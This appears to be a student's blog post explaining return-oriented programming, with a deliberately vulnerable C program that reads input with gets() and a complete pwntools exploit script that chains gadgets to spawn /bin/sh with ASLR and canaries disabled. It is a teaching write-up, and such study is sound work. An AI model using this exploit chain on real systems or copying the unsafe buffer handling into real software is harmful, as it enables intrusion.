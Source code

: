 ```yaml
---
layout: post
title:  "A rop project"
categories: [project]
tags: [ROP]
---
```


In the last semester i attended the computer security course, and since i had to do a project i made a simple program to exploit with a rop chain in order to explain how return oriented programming works.
Here i will explain everything about.
During my presentation i started talk about the fact that during the excution of a program the memory is under the constraint Write XOR Execute. Part of the memory that i can write i cannot execute and viceversa.
And so is here where Return Oriented programming come in action, with this technique when a program is vulnerable for example to a buffer overflow i can still execute malicious code even if i can't upload the shellcode directly in the stack.
Supposing to work on a x86 architecture, i have on the stack the base pointer and after that the return address of the function (see the image below).

![My helpful screenshot](/assets/stack1.png)

Here's the code that i wanted to exploit:
{% highlight c %}
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void r()
{
	char s[30];
	gets(s);
}

void ouch()
{
	printf("%s\n","hi!!");
}

int main()
{
	r();
	//printf("%s\n",s);	
	printf("%s\n","end!");
	return 0;
}
{% endhighlight %}

So the goal is to overwrite the return address, and consequentially what came after that with addresses of memory that contain little piece of code that terminate with the instruction ret and so on. So i search inside the program this little pieces of code that are called gadget. In this way after one of this little piece of code terminate is execution the next instruction that will be executed will be the one at address2 see the image below.

![My helpful screenshot](/assets/stack2.png)

And so on with this trick is possible execute a shell.
To do all of this i used Radare2(that allow me to search gadget inside the code) and pwntools(that simplify me the construction of the exploit).
All of this was did whit ASLR disabled and no stack canaries, that are two of contromeasures used to avoid this kind of attack.
To do all of this i had to search the right gadgets to execute the instructions and spawn /bin/sh.
The parameters to exec /bin/sh are:
- eax = 0xb
- ebx = address of memory of string "/bin/sh"
- ecx = pointer to pointer of string "/bin/sh"
- edx = env variable but that can be set to 0 with no problem

To simplify things i used the string "/bin//sh" because on linux is ignored the double slash.
So i searched the gadgets.
I found pop eax, pob ebx, and pop edx with no problems, the only one problem was for pop ecx see below: (but i decided to maintan it in order to find a way to patch it).

![My helpful screenshot](/assets/pop_ecx.png)

After that i search the address of the bss in order to have a place to write /bin//sh.
And after that i search the write-what-where gadget that allow me to write at a specific address a value with the use of two register. In this way using the pop instructions i could set value to register and with this gadget write the memory (the bss).

![My helpful screenshot](/assets/write_mem.png)

To patch the pop ecx i used a pop esi since in the gadget above there was or cl,byte[esi] in order to make the ecx value to not change. NOTE: that this work only because the specific value in the memory, proprably with ASLR enabled i should have to change to make this work.
After that i search for xor edx, edx. And in the end i found xor eax, eax and one last instruction that increase the al register, so i called it the number of times to reach the number of the syscall (0xb).
And in the end the int 0x80 to make the syscall.
To clarify i had to add an initial padding to fill the buffer.
In the end once i execute my program i had this:


EDIT: i used sudo but there isn't a motivation, exploit works also with process with uid different from zero
![My helpful screenshot](/assets/PoC.png)

the ";" is to mantaint the interaction, anyway there is a method in pwntools that i didn't know at the time.
Here's the code of the final exploit.
{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

DIM_BUF = 42

PAD = "A" * DIM_BUF

pop_eax =  0xf7ffafb5
pop_ebx =  0xf7ff2c21 
pop_ecx = 0xf7ff82f9 
                
pop_edx =   0xf7ff8c15 

pop_esi = 0xf7ff2949

shell1 = "/bin"
shell2 = "//sh"

mem_to_write = 0x56557020
write_the_mem = 0xf7feb47b # mov dword[edx], eax

zero_place = 0x56557040
#copy_zero_to_edx = 0xf7ff2f05

#mov_ecx = 0xf7ff2f19

xor_edx = 0xf7ff0670 
#mov_eax_ff = 0xf7ff1633 
xor_eax = 0xf7ff2534

inc1_eax =  0xf7fd9a96 
int_80 = 0xf7ff2195 

buf = PAD 

buf += p32(pop_edx) 
buf += p32(mem_to_write)
buf += p32(pop_eax)
buf += "/bin"
buf += p32(write_the_mem)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 4)
buf += p32(pop_eax)
buf += "//sh"
buf += p32(write_the_mem)
buf += p32(pop_eax) 
buf += p32(mem_to_write)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 12) 
buf += p32(write_the_mem)
buf += p32(pop_esi)
buf += p32(mem_to_write + 12)
buf += p32(pop_ecx)
buf += p32(mem_to_write + 12)
buf += p32(xor_edx)
buf += p32(mem_to_write) 
buf +="AAAAAAAA" #raw data
buf += p32(xor_eax) 

for i in range(11):
    buf += p32(inc1_eax) 

buf += p32(int_80) 

print(buf)

{% endhighlight %}
Maybe all of this is over simplified and not to much clear, i decided to not explain somethings in detail but i thing that in general the basic idea is ok. However this was my first article so i have a very loooooong road to improve my infosec (and also writing) skills.



